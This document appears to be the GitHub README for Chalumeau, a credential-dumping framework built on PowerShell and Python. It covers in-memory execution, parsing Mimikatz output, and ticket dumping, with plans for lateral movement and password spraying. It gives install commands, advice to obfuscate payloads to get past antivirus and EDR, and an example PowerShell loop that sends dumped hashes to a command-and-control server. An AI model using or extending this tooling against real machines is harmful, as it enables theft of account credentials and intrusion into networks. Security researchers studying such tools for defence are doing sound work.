


<h1 align="center">
<br>
Chalumeau
</h1>

Chalumeau is automated,extendable and customizable credential dumping tool based on powershell and python.  

### Main Features
- Write your own Payloads
- In-Memory execution
- Extract Password List
- Dashboard reporting / Web Interface
- Parsing Mimikatz
- Dumping Tickets

### Screenshots
<h1 align="center">
<br>
</h1>

### Known Issues
- Parsing Mimikatz dcsync (working on fix)
- Bypassing Antivirus and EDRs , you will need to maintain your payloads

### TODO
- Encrypted Communication
- Automated Lateral movement
- Automated Password Spraying 
- Automated Hash Cracking

### Using
```
git clone https://github.com/cyberstruggle/chalumeau.git
cd chalumeau/
chmod +x install.sh
sudo ./install.sh

# Run
chmod +x start.sh

sudo ./start.sh
```
### Write your own payload
obfuscate your own powershell payload for dumping credentials and use chalumeau function call without any imports
chalumeau will Encrypt and contact with the c2 and sending the dumped credentials.
just save the file under chalumeau-power/payloads
- Using ChalumeauSendCredentials Function
    - ChalumeauSendCredentials
        - Secret        = the dumped hash or clear text password (string)
        - Username      = the username of id of the dumped credential (string)
        - IsClearText   = 1 if it's clear text 0 if it's not (int)
        - Source        = mention the Source payload like "Mimikatz Hash" (string)

```powershell
# Custom Payload Example
# $DumpedHashes is array of dumped hashes from the local machine
foreach ($hash in $DumpedHashes){
    ChalumeauSendCredentials -Secret $hash.secret -Username $hash.user -IsClearText 0 -source "My custom payload"
} 
```

## Credits
* wazehell [Author](https://twitter.com/safe_buffer)
* Invoke-Obfuscation [Daniel Bohannon](https://github.com/danielbohannon/Invoke-Obfuscation)
* Invoke-Mimikatz [PowerSploit](https://github.com/PowerShellMafia/PowerSploit/blob/master/Exfiltration/Invoke-Mimikatz.ps1)
* Get-PassHashes [nishang](https://github.com/samratashok/nishang/blob/master/Gather/Get-PassHashes.ps1)
* Chalumeau Logo [Aureliano](https://twitter.com/aurelbedelia)
* Invoke-MassMimikatz [PowerTools](https://github.com/PowerShellEmpire/PowerTools/blob/master/PewPewPew/Invoke-MassMimikatz.ps1)